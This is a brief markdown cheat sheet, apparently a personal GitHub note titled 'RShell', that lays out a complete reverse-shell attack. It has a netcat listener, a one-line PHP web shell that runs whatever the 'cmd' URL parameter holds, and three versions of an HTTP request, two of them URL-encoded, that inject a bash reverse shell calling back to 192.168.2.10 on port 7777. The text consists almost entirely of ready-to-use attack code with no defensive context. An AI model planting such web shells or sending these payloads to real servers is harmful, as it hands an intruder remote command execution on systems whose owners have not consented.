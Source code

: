 # RShell

> local


```sh
nc -lvp port
```

> php
```php
<?php
shell_exec($_GET['cmd']);
```

> http request
```sh
http://host/?cmd=/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.10/7777 0>&1'
prefer http://host/?cmd=/bin/bash -c 'bash -i %3E%26 /dev/tcp/192.168.2.10/7777 0%3E%261'
http://host/?cmd=/bin/bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/192.168.2.10/7777%200%3E%261%27
```
